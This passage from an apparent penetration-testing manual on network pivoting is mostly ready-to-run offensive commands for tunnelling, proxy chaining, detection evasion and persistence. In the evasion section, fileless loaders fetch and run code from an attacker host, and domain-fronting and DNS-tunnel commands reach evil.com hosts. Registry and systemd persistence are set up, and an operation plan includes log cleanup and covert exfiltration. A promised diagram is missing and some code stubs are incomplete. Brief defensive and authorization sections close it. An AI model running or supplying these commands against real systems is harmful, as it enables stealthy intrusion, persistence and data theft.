plink.exe -ssh -i private_key.ppk -D 9050 -N user@pivot_host

# Multiple port forwards
plink.exe -ssh -L 3389:192.168.1.101:3389 -L 445:192.168.1.102:445 user@pivot_host

# Automatic login with stored session
plink.exe -load "pivot_session" -D 9050 -N

# Connection through HTTP proxy
plink.exe -ssh -proxycmd "connect.exe -H proxy:8080 %host %port" user@target
```

### 9.3 PowerShell-Based Pivoting

:::note
The following PowerShell/C# code provides a framework for implementing a SOCKS5 proxy server. The actual SOCKS5 protocol logic (handling client negotiation and relaying) must be implemented by the user. This is provided for reference; a complete implementation is left as an exercise for advanced readers. For full details, refer to RFC 1928.
:::

```powershell
# PowerShell port forwarding script
function Start-PortForward {
    param($LocalPort, $RemoteHost, $RemotePort)
    
    $listener = [System.Net.Sockets.TcpListener]::new([System.Net.IPAddress]::Any, $LocalPort)
    $listener.Start()
    
    while ($true) {
        $client = $listener.AcceptTcpClient()
        $remote = New-Object System.Net.Sockets.TcpClient($RemoteHost, $RemotePort)
        
        # Relay traffic between client and remote
        Start-Job -ScriptBlock {
            param($c, $r)
            $c.GetStream().CopyTo($r.GetStream())
        } -ArgumentList $client, $remote
    }
}

# SOCKS proxy implementation in PowerShell
$code = @"
using System;
using System.Net;
using System.Net.Sockets;
using System.Threading;

public class SocksProxy {
    public static void Start(int port) {
        TcpListener listener = new TcpListener(IPAddress.Any, port);
        listener.Start();
        while (true) {
            TcpClient client = listener.AcceptTcpClient();
            Thread thread = new Thread(() => HandleClient(client));
            thread.Start();
        }
    }
    
    private static void HandleClient(TcpClient client) {
        // SOCKS5 protocol implementation should be inserted here.
        // For full details, refer to RFC 1928.
    }
}
"@

Add-Type -TypeDefinition $code
[SocksProxy]::Start(1080)
```

## 10. Cross-Platform Tunneling Solutions

:::note
All examples in this section assume you have downloaded or cloned the respective tool repositories (e.g., rpivot, reGeorg, stunnel, dnscat2) and fulfilled any dependencies. Substitute IP addresses, script paths, and ports to fit your scenario.
:::

### 10.1 rpivot: HTTP-Based Tunneling

rpivot provides HTTP/HTTPS tunneling with SOCKS proxy capabilities:

```bash
# Server setup (attacker machine)
python rpivot_server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-port 9050

# Client connection (compromised host)
python rpivot_client.py --server-ip attacker_ip --server-port 9999

# HTTPS mode for encrypted tunneling
python rpivot_server.py --server-port 443 --server-ip 0.0.0.0 --proxy-port 9050 --ssl

# Client with custom headers
python rpivot_client.py --server-ip attacker_ip --server-port 9999 --user-agent "Mozilla/5.0"

# Client through HTTP proxy
python rpivot_client.py --server-ip attacker_ip --server-port 9999 --proxy proxy_host:8080
```

### 10.2 reGeorg: Web Application Tunneling

reGeorg creates tunnels through web application servers:

```bash
# Upload tunnel script to web server
# tunnel.aspx, tunnel.php, tunnel.jsp, or tunnel.py

# Start reGeorg client
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php

# Client with authentication
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php -H "Cookie: PHPSESSID=abc123"

# Client with custom headers
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php -H "User-Agent: Custom" -H "X-Forwarded-For: 127.0.0.1"
```

### 10.3 Stunnel: TLS Encryption Wrapper

Stunnel provides TLS encryption for arbitrary protocols:

```bash
# Server configuration (stunnel.conf)
[https]
accept = 443
connect = 80
cert = /etc/stunnel/cert.pem
key = /etc/stunnel/key.pem

# Client configuration
[https]
accept = 8080
connect = server_ip:443
```

### 10.4 dnscat2: DNS Tunneling

dnscat2 provides covert communication through DNS queries:

```bash
# Server setup
ruby dnscat2.rb evil.domain.com

# Client connection
./dnscat2 evil.domain.com

# Client with specific DNS server
./dnscat2 --dns server=8.8.8.8 evil.domain.com

# Encrypted session
ruby dnscat2.rb --security=open evil.domain.com
./dnscat2 --secret=password evil.domain.com
```

## 11. Socat: Swiss Army Knife of Network Relays

:::note
Socat must be installed on both source and destination hosts. Replace port numbers, interface addresses, and file paths as needed for your environment.
:::

Socat provides bidirectional data relay capabilities with extensive protocol support:

### 11.1 Basic Relay Configurations

```bash
# TCP port forwarding
socat TCP-LISTEN:8080,fork TCP:internal_server:80

# UDP relay
socat UDP-LISTEN:53,fork UDP:dns_server:53

# TCP to UDP conversion
socat TCP-LISTEN:53,fork UDP:dns_server:53

# Bidirectional relay with logging
socat -d -d TCP-LISTEN:8080,fork TCP:internal_server:80

# Relay with connection limits
socat TCP-LISTEN:8080,fork,max-children=10 TCP:internal_server:80
```

### 11.2 Encrypted Tunneling

```bash
# SSL/TLS server
socat OPENSSL-LISTEN:443,cert=server.pem,fork TCP:internal_server:80

# SSL/TLS client
socat TCP-LISTEN:8080,fork OPENSSL:server:443,verify=0

# SSL with client certificate verification
socat OPENSSL-LISTEN:443,cert=server.pem,cafile=ca.pem,fork TCP:internal_server:80

# SSL tunnel with custom ciphers
socat OPENSSL-LISTEN:443,cert=server.pem,cipher=HIGH,fork TCP:internal_server:80
```

### 11.3 Advanced Socat Implementations

```bash
# HTTP proxy relay
socat TCP-LISTEN:8080,fork PROXY:proxy_server:internal_host:80,proxyport=3128

# SOCKS4 relay
socat TCP-LISTEN:8080,fork SOCKS4:socks_server:internal_host:80,socksport=1080

# File-based relay for covert channels
socat TCP-LISTEN:8080,fork SYSTEM:'cat > /tmp/tunnel; cat /tmp/tunnel'

# Serial port tunneling
socat TCP-LISTEN:2001,fork /dev/ttyS0,raw,echo=0

# Unix socket relay
socat TCP-LISTEN:8080,fork UNIX-CONNECT:/var/run/service.sock
```

## 12. Proxychains: Transparent Proxy Integration

:::note
Proxychains must be installed on the system where you intend to tunnel applications. Edit the proxychains configuration files to reflect the actual proxy endpoints and chains you wish to use.
:::

Proxychains enables transparent proxy chain integration for arbitrary applications:

### 12.1 Configuration Management

```bash
# /etc/proxychains.conf or ~/.proxychains/proxychains.conf
dynamic_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 9050
http 127.0.0.1 8080
socks4 192.168.1.100 1080
```

### 12.2 Chain Configuration Types

```bash
# Dynamic chain (uses only working proxies)
dynamic_chain

# Strict chain (uses all proxies in order)
strict_chain

# Random chain (random proxy order)
random_chain
```

### 12.3 Application Integration

```bash
# Network scanning through proxy chain
proxychains nmap -sT -P0 10.10.10.10

# Web application testing
proxychains sqlmap -u "http://internal_target/page.php?id=1"

# SSH through proxy chain
proxychains ssh user@internal_host

# File transfer through proxies
proxychains scp file.txt user@internal_host:/tmp/

# Browser integration
proxychains firefox

# Custom application proxying
proxychains ./custom_tool --target internal_host
```

## 13. Advanced Pivot Chaining Methodologies

:::note
The following examples combine multiple pivoting techniques and assume prior establishment of each tunnel or session as described in the previous sections. Adjust hostnames, IPs, ports, and tool invocations for your topology.
:::

### 13.1 Multi-Hop Architecture Design

Effective pivot chaining requires systematic network mapping and route optimization across multiple security boundaries:

```
Internet → DMZ Host → Internal Network → Workstation → Restricted Network → Critical Server
```

The following sequence diagram illustrates the establishment of a complete multi-hop pivot chain:



#### Implementation Strategy:

1. **Initial Foothold**: Compromise externally accessible system
2. **Network Reconnaissance**: Enumerate internal network topology
3. **Lateral Movement**: Establish additional compromised hosts
4. **Route Optimization**: Configure efficient traffic routing
5. **Persistence**: Maintain reliable communication channels

### 13.2 Hierarchical Routing Implementation

```bash
# Primary route through most stable pivot
ip route add 10.10.0.0/16 via 192.168.1.100 dev eth0 metric 1

# Secondary route for redundancy
ip route add 10.10.0.0/16 via 192.168.1.101 dev eth0 metric 10

# Tertiary route through alternative path
ip route add 10.10.0.0/16 via 192.168.1.102 dev eth0 metric 20

# Load balancing across multiple paths
ip route add 10.10.0.0/16 nexthop via 192.168.1.100 weight 1 nexthop via 192.168.1.101 weight 1
```

### 13.3 Cascade Tunneling Example

```bash
# Hop 1: SSH tunnel to DMZ host
ssh -D 9050 user@dmz_host

# Hop 2: Chisel through first tunnel
proxychains chisel client internal_host:8080 R:socks2

# Hop 3: Ligolo-ng through second tunnel
proxychains ./agent -connect deep_internal:11601

# Hop 4: Direct tool access through all hops
proxychains nmap -sT critical_network_range
```

## 14. Detection Evasion and Operational Security

:::note
Evasion strategies assume prior knowledge of defensive monitoring systems and network policies in your environment. Adapt timing, protocol, and behavioral parameters to maximize stealth in your particular context.
:::

### 14.1 Operational Timeline and Evasion Strategy

The following timeline illustrates optimal timing and sequencing of evasion techniques throughout an operation:

```mermaid
gantt
    title Detection Evasion Timeline
    dateFormat  HH:mm
    axisFormat %H:%M
    
    section Phase 1: Reconnaissance
    Network Discovery     :recon1, 09:00, 10:00
    Service Enumeration   :recon2, after recon1, 11:00
    Vulnerability Assessment :recon3, after recon2, 12:00
    
    section Phase 2: Initial Access
    Business Hours Check  :access1, 13:00, 13:15
    Exploit Deployment    :access2, after access1, 13:45
    Persistence Setup     :access3, after access2, 14:15
    
    section Phase 3: Pivot Establishment
    Traffic Analysis      :pivot1, 14:30, 14:45
    Tunnel Setup (HTTPS)  :pivot2, after pivot1, 15:15
    Connection Testing    :pivot3, after pivot2, 15:30
    
    section Phase 4: Lateral Movement
    Credential Harvesting :lateral1, 15:45, 16:00
    Internal Reconnaissance :lateral2, after lateral1, 16:30
    Secondary Compromise  :lateral3, after lateral2, 17:00
    
    section Phase 5: Stealth Maintenance
    Log Cleanup          :stealth1, 17:15, 17:30
    Traffic Normalization :stealth2, 17:30, 18:00
    Persistence Validation :stealth3, after stealth2, 18:15
    
    section Phase 6: Data Exfiltration
    Target Identification :exfil1, 08:00, 08:30
    Staged Collection    :exfil2, after exfil1, 09:00
    Covert Transfer      :exfil3, after exfil2, 10:00
```



### 14.2 Traffic Analysis Evasion

#### Protocol Mimicry Techniques:

```bash
# HTTP traffic camouflage
chisel server --port 80 --auth "user:pass"
chisel client --header "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" server:80 R:socks

# HTTPS certificate spoofing
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
socat OPENSSL-LISTEN:443,cert=cert.pem,fork TCP:127.0.0.1:1234

# DNS query tunneling
dnscat2 --secret=secretkey subdomain.legitimate-domain.com
```

#### Timing Randomization:

```python
import random
import time

def jittered_connection(min_delay=1, max_delay=30):
    delay = random.uniform(min_delay, max_delay)
    time.sleep(delay)
    # Establish connection
```

#### Volume Control Implementation:

```bash
# Bandwidth limiting with tc (traffic control)
tc qdisc add dev eth0 root handle 1: htb default 12
tc class add dev eth0 parent 1: classid 1:1 htb rate 100mbit
tc class add dev eth0 parent 1:1 classid 1:12 htb rate 1mbit ceil 2mbit

# Application-level rate limiting
pv -L 1024 < largefile.dat | nc target_host 443
```

### 14.2 Behavioral Analysis Evasion

#### Credential Management:

```bash
# Credential rotation script
#!/bin/bash
CREDS=("user1:pass1" "user2:pass2" "user3:pass3")
CURRENT_CRED=${CREDS[$RANDOM % ${#CREDS[@]}]}

# Use credential for connection
ssh -o PasswordAuthentication=yes ${CURRENT_CRED%:*}@target_host
```

#### Session Timing Patterns:

```python
import datetime

def is_business_hours():
    now = datetime.datetime.now()
    return (now.weekday() < 5 and 
            9 <= now.hour <= 17)

def wait_for_business_hours():
    while not is_business_hours():
        time.sleep(3600)  # Check every hour
```

#### Process Injection for Stealth:

```powershell
# PowerShell process injection
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);
"@

Add-Type -MemberDefinition $code -Name Win32 -Namespace Win32Functions
```

### 14.3 Memory-Only Operations

#### Fileless Agent Deployment:

```bash
# Linux memory execution
curl -s http://attacker/agent | bash

# PowerShell reflective loading
$bytes = [System.Convert]::FromBase64String($agent_b64)
$assembly = [System.Reflection.Assembly]::Load($bytes)
$assembly.EntryPoint.Invoke($null, @(,$args))

# Python bytecode execution
exec(compile(requests.get('http://attacker/agent.py').text, '<string>', 'exec'))
```

#### In-Memory Tunneling:

```c
// C implementation for memory-resident tunneling
#include <windows.h>
#include <winsock2.h>

DWORD WINAPI TunnelThread(LPVOID lpParam) {
    // Socket creation and traffic relay in memory
    SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);
    // Implementation details...
    return 0;
}

int main() {
    CreateThread(NULL, 0, TunnelThread, NULL, 0, NULL);
    return 0;
}
```

### 14.4 Advanced Evasion Techniques

#### Domain Fronting:

```bash
# Use legitimate CDN for traffic fronting
curl -H "Host: evil.com" https://legitimate-cdn.cloudfront.net/beacon

# DNS over HTTPS for covert communication
curl -H "Accept: application/dns-json" \
     "https://cloudflare-dns.com/dns-query?name=data.evil.com&type=TXT"
```

#### Steganographic Tunneling:

```python
# Hide data in HTTP headers
headers = {
    'User-Agent': 'Mozilla/5.0',
    'X-Forwarded-For': base64_encode(command),
    'Accept-Language': encrypt(data)
}
```

#### Certificate Pinning Bypass:

```bash
# Custom certificate generation
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 \
    -subj "/C=US/ST=CA/L=San Francisco/O=Legitimate Corp/CN=*.legitimate.com"
```

## 15. Platform-Specific Implementation Considerations

:::note
Adapt scripts, service definitions, and persistence mechanisms to your platform (Linux, Windows, container, or cloud). Substitute example IPs, file paths, and user names as required.
:::

### 15.1 Linux-Specific Techniques

```bash
# iptables-based port forwarding
iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.100:80
iptables -t nat -A POSTROUTING -j MASQUERADE

# systemd service for persistence
cat > /etc/systemd/system/tunnel.service << EOF
[Unit]
Description=Network Tunnel Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/chisel client server:8080 R:socks
Restart=always
User=nobody

[Install]
WantedBy=multi-user.target
EOF
```

### 15.2 Windows-Specific Implementations

```cmd
REM Registry-based persistence
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "plink.exe -ssh -D 9050 -N user@server"

REM Service creation for persistence
sc create TunnelService binPath= "C:\Windows\System32\plink.exe -ssh -D 9050 -N user@server"
sc config TunnelService start= auto
```

### 15.3 Container and Cloud Environments

```bash
# Docker container pivoting
docker run -d --network host -v /tmp:/tmp tunnel-image

# Kubernetes pod networking
kubectl port-forward pod/pivot-pod 8080:80

# Cloud metadata service tunneling
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/
```

## 16. Monitoring and Defensive Considerations

:::note
Defensive strategies and detection patterns provided here are examples; always tune IDS/IPS and SIEM rules to your organizational network profile and risk posture.
:::

### 16.1 Detection Signatures

Network defenders should monitor for the following indicators:

#### Connection Pattern Analysis:
- Unusual outbound connections on common ports (22, 80, 443)
- High-frequency connection attempts with regular intervals
- Connections to external hosts from internal segments
- Abnormal bandwidth utilization patterns

#### Protocol Analysis:
- SSH connections with unusual keep-alive patterns
- HTTP traffic with suspicious user agents or headers
- DNS queries to unusual domains or with high frequency
- TLS connections to self-signed or suspicious certificates

### 16.2 Defensive Countermeasures

```bash
# Network segmentation enforcement
iptables -A FORWARD -s 192.168.100.0/24 -d 192.168.200.0/24 -j DROP

# Deep packet inspection
snort -c /etc/snort/snort.conf -i eth0

# Connection monitoring
netstat -antlp | grep ESTABLISHED | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -nr
```

## 17. Legal and Ethical Considerations

:::note
All activities must be performed with explicit written authorization. Always maintain thorough documentation and comply with all relevant legal and ethical standards for your jurisdiction and engagement.
:::

### 17.1 Authorization Requirements

All pivoting techniques described in this manual must only be employed within the scope of:
- Authorized penetration testing engagements
- Red team exercises with explicit approval
- Security research in controlled environments
- Defensive security training and education

### 17.2 Documentation Requirements

Comprehensive documentation must include:
- Scope of testing authorization
- Network segments accessed through pivoting
- Tools and techniques employed
- Timeline of pivoting activities
- Data accessed or modified during testing

## 18. Conclusion

This comprehensive reference manual provides an exhaustive analysis of network pivoting methodologies across multiple platforms and use cases. The techniques described represent the current state-of-the-art in adversarial network traversal, providing cybersecurity professionals with the knowledge necessary to both implement and defend against sophisticated pivoting attacks.

The evolution of pivoting tools toward more sophisticated evasion capabilities, exemplified by frameworks such as Ligolo-ng, Havoc C2, Villain, and Sliver, demonstrates the ongoing arms race between offensive and defensive capabilities. Future research should focus on machine learning-based traffic analysis evasion, quantum-resistant encryption for long-term operations, and integration with cloud-native architectures.

Security practitioners must balance the offensive capabilities described herein with robust defensive measures, comprehensive monitoring, and adherence to ethical guidelines to ensure the responsible advancement of cybersecurity knowledge and capabilities.

## References

1. [Postel, J. (1980). Internet Protocol - DARPA Internet Program Protocol Specification. RFC 760.](https://datatracker.ietf.org/doc/html/rfc760)
2. [Ylonen, T. & Lonvick, C. (2006). The Secure Shell (SSH) Protocol Architecture. RFC 4251.](https://datatracker.ietf.org/doc/html/rfc4251)
3. [Leech, M. et al. (1996). SOCKS Protocol Version 5. RFC 1928.](https://datatracker.ietf.org/doc/html/rfc1928)
4. [Metasploit Framework Documentation. Rapid7.](https://docs.metasploit.com/)
5. [Chisel Project Repository.](https://github.com/jpillora/chisel)
6. [Ligolo-ng Technical Documentation.](https://github.com/nicocha30/ligolo-ng)
7. [Havoc C2 Framework.](https://github.com/HavocFramework/Havoc)
8. [Villain Framework Repository.](https://github.com/t3l3machus/Villain)
9. [Sliver Framework Documentation.](https://sliver.sh/)
10. [OpenSSH Manual Pages.](https://www.openssh.com/manual.html)
11. [Pivoting. HideandSec.](https://hideandsec.sh/books/cheatsheets-82c/page/pivoting)
12. [NIST Special Publication 800-115: Technical Guide to Information Security Testing and Assessment.](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf)
13. [OWASP Testing Guide v4.0: Web Application Security Testing.](https://owasp.org/www-project-web-security-testing-guide/)
14. [BishopFox Sliver Wiki: Pivots.](https://github.com/BishopFox/sliver/wiki/Pivots)
